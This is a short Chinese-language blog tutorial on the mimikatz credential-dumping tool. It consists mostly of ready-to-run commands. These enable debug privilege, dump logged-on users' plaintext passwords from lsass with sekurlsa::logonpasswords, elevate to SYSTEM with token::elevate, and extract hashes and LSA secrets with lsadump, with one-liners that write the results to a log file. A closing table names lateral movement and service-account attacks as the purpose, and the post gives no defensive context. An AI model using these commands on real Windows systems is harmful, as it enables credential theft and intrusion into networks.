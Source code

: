 ```yaml
---
layout: post
title: mimikatz 使用教程
subtitle: mimikatz
date: 2025-07-30 09:20
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags: 
published: true
---
```

> [!NOTE]
> 项目地址：[gentilkiwi/mimikatz: A little tool to play with Windows security](https://github.com/gentilkiwi/mimikatz)

## 1. 基本介绍

**mimikatz** 是一款功能强大的轻量级进程调试工具，在安全领域最大的亮点就是他可以直接从 lsass 中获取当前处于 Active 系统的登录密码

## 2. 基本使用

### 2.1. 获取本地密码

**获取调试权限**

```batch
# 以管理员运行
privilege::debug
```

**抓取密码**

```batch
sekurlsa::logonpasswords # 获登陆用户信息及密码
# 抓取密码并导出到文件
mimikatz ""privilege::debug"" ""log sekurlsa::logonpasswords full"" exit >> log.txt
```

**获取所有用户 hash**

```batch
privilege::debug
lsadump::lsa /path
# 使用当前用户的权限提升为系统级（NT AUTHORITY\SYSTEM）
# 通过提取并使用系统 Token，模拟最高权限用户
token::elevate
# 提取存储在注册表中的 LSA 机密数据
lsadump::secrets
# 执行并导出
mimikatz ""privilege::debug"" ""token::elevate"" ""lsadump::secrets"" exit >> log.txt
```

| 功能模块   | lsadump::secrets                                   |
| ------ | -------------------------------------------------- |
| **提取内容**   | 本地 LSA 机密信息，如服务账户密码、本地登录密码                         |
| **适用场景**   | 本地系统服务、机器账户的分析和利用                                  |
| **信息存储位置** | 注册表路径：`HKLM\SYSTEM\CurrentControlSet\Services\LSA` |
| **提取内容类型** | 明文密码、敏感配置项                                         |
| **主要用途**   | 横向移动、服务账户攻击                                        |
